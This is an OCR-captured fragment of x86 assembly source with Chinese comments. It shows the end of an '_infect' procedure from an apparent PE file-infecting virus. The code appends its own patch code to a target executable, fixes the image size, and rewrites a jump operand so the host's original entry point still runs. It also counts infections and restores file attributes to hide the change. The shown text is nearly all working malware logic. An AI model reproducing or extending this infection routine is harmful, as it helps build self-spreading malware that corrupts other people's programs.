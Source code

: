 ```assembly
984
985 ;修正SizeOfImage
986 mov eax,dword ptr [ebx+dwLastSectionAlignSize]
987 mov ecx,dword ptr [ebx+dwSectionAlign]
988 invoke _align
989 ;获取最后一个节的VirtualAddress
990 add eax,dword ptr [ebx+dwVirtualAddress]
991 mov [edi].OptionalHeader.SizeOfImage,eax
992
993 ;复制补丁程序
994 lea esi,[ebx+vir _start]
995 mov edi,dword ptr [ebx+mapAddress]
996 add edi,dword ptr [ebx+dwNewFileAlignSize]
997
998 mov ecx,dword ptr [ebx+dwPatchCodeSize]
999 rep movsb
1000
1001 ;修正补丁程序中的E9指令后的操作数
1002 mov eax,dword ptr [ebx+mapAddress]
1003 add eax,dword ptr [ebx+dwNewFileAlignSize]
1004 add eax,dword ptr [ebx+dwPatchCodeSize]
1005
1006
1007 sub eax,5 ;eax指向了E9的操作数
1008 mov edi,eax
1009
1010 sub eax,dword ptr [ebx+mapAddress]
1011 add eax,4
1012
1013 nop
1014 mov ecx,dword ptr [ebx+dwDstEntryPoint]
1015 invoke _OffsetToRVA,[ebx+mapAddress],eax
1016 sub ecx,eax
1017 mov dword ptr [edi],ecx
1018 inc byte ptr [ebx+infections] ;增加计数，如果超过指定个数，则返回
1019 jmp unMapFile ;将新增加的模块追加到文件尾部
1020
1021 noInfect:
1022 ;如果修改失败，则恢复原文件，并将计数减1
1023 dec byte ptr [ebx+infections]
1024 mov ecx,dword ptr [ebx+WFD_nFileSizeLow]
1025 call truncFile
1026 unMapFile:
1027 push dword ptr [ebx+mapAddress]
1028 call [ebx+_UnmapViewOfFile]
1029 closeMap:
1030 push dword ptr [ebx+mapHandle]
1031 call [ebx+_CloseHandle]
1032 closeFile:
1033 push dword ptr [ebx+fileHandle]
1034 call [ebx+_CloseHandle]
1035 cannotOpen:
1036 ;设置文件原先的属性
1037 push dword ptr [ebx+WFD_dwFileAttributes]
1038 lea eax,[ebx+WFD_szFileName]
1039 push eax
1040 call [ebx+_SetFileAttributesA]
1041
1042 ret
1043 _infect endp
1044
```

